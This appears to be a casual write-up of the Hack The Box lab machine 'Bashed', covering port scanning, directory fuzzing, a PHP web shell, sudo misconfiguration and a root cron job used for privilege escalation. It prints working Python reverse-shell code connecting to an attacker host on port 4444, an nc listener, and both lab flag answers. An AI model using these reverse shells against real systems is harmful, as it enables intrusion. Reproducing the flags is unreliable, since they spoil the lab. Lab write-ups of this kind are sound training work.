 # Tasks

[**1. How many open TCP ports are listening on Bashed?**](#task-1)

[**2. What is the relative path on the webserver to a folder that contains phpbash.php?**](#task-2)

[**3. What user is the webserver running as on Bashed?**](#task-3)

[**4. User Flag**](#user-flag)

[**5. www-data can run any command as a user without a password. What is that user's username?**](#task-5)

[**6. What folder in the system root can scriptmanager access that www-data could not?**](#task-6)

[**7. What is filename of the file that is being run by root every couple minutes?**](#task-7)

[**8. Root Flag**](#root-flag)

# Tools Used

- nmap
- gobuster

# Skills Used

- Directory fuzzing
- Python scripting (script kiddie moment tho lmao)

# Solutions

## Task 1

I did this first:

```
nmap -sCV [IP Address]
```

Only port 80 showed:

![image](https://github.com/user-attachments/assets/fbfc0cb3-eeed-447c-86f6-5fcce1245392)

So, considering it was only port 80 (which was strange), I tried using the ``-sS`` flag to show all TCP ports.

It was the same thing :///

**Answer: 80**

## Task 2

_Gobuster_ time:

```
gobuster dir -u http://[IP Address] -w /usr/share/dirb/wordlists/common.txt -x php
```

Also, you can use other wordlists if you like, and maybe include other file extensions.

![image](https://github.com/user-attachments/assets/d233af5b-05a6-4c3b-b7e8-209ab2cb79f8)

After that, I checked each directory one-by-one (yes I know, it's inefficient, but I forgot what the command was to recursively search endpoints lmao).

I found it here in _/dev_:

![image](https://github.com/user-attachments/assets/10525665-1438-4bbd-8729-aa6fcfb10c67)

**Answer: /dev**

## Task 3

Naturally, I got curious as to why we want to see ```phpbash.php```:

![image](https://github.com/user-attachments/assets/09c6df72-8ce9-45eb-997d-fe2c968fbfeb)

Apparently it really was a bash lmao.

Anyways, apparently I'm either blind or retarded lmao, I misread the task as "find the name of the webserver on Bashed", when I just needed to find the _user_ ://

It was one of the first commands I ran too:

![image](https://github.com/user-attachments/assets/36dca046-6585-4d1f-a557-c0b4d97a2807)

See ://

**Answer: www-data**

## User Flag

Here you go:

![image](https://github.com/user-attachments/assets/6964a817-0da7-4aaa-97ef-03760a56bd61)

**Answer: c9097fe5a29264941a6b3a7798018454**

## Task 5

Simple ```sudo -l``` will do:

![image](https://github.com/user-attachments/assets/0a689431-444f-40cc-baeb-120a7b783399)

**Answer: scriptmanager**

## Task 6

Simple ```ls -l``` will do (no need for ```-a``` since we don't need to see hidden files here, just permissions):

![image](https://github.com/user-attachments/assets/4f9193c8-712f-4b6f-ae9a-403f37a02cdf)

**Answer: scripts**

## Task 7

Ok so, I looked at the official writeup and it made me notice that I can run any command as _scriptmanager_, which I kinda overlooked lmao.

So anyways, I switched to that user real quick with this:

```
sudo -u scriptmanager bash -i
```

That way, I can do more stuff.

Or at least, I would've if it'd let me ://

So instead, I just used ```cat``` as _scriptmanager_ lmao.

![image](https://github.com/user-attachments/assets/a1a9bc3e-e027-4b38-8075-56bb20221c05)

So, supposedly this was the file that was being executed every few minutes, but I don't actually have proof now do I.

So now, I'm gonna go look for proof...

![image](https://github.com/user-attachments/assets/a055dacf-0118-4895-8dc3-930876ac3ba2)

I found proof :D, test runs every 6 minutes (if I'm reading it right).

Embarassingly, I forgot cronjobs were not daemons lmao.

**Answer: test.py**

## Root Flag

So I've been stuck on this for wayyyyy to long, cuz I forgot to establish an inital reverse shell that was more interactive than the web shell given to us by _phpbash.php_.

Basically, here's what I did to finally get out of that roadblock:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(([IP Address],[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Real simple right?

Yeah I forgot to do that lmao, now that I did tho, I can use the _scriptmanager_ user properly.

Anyways, on my main machine, I was listening for the request via:

```
nc -lvnp [Port]
```

So now, I can finally do this:

![image](https://github.com/user-attachments/assets/bfc89e88-06af-4a97-beca-0c23cde01eba)

Now that it's interactive, I can establish a shell as _scriptmanager_, FINALLY.

Anyways, now we gotta tweak that _test.py_ file to establish a reverse shell, so since we already used a python script to establish that, we may as well reuse that and just change the port to a different one.

**P.S.** In the [**revshell generator**](https://www.revshells.com/), be sure to set the shell to _/bin/sh_ (that's what worked for me).

Here's the exact scripts just for future reference:

```
import socket,subprocess,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```

Also now that I look at it properly, you can probably get away with not importing ```subprocess``` since we're not using it to get a shell anyway lol.

Anyways, after a wee bit of waiting (and after partially [stabilizing](https://medium.com/@varunrajamirtharaj/stabilizing-a-shell-getting-a-fully-functional-tty-31232897f2f5) my interactive shell to use _nano_), I finally got what I wanted.

![image](https://github.com/user-attachments/assets/8087966f-ab6f-4c90-be3d-9b61f293f0b5)

That honestly took wayyyy too long (even with writeups lmao), but it was still pretty fun regardless.

**Answer: b48a1c0925f34e00d21827778ddc9a26**
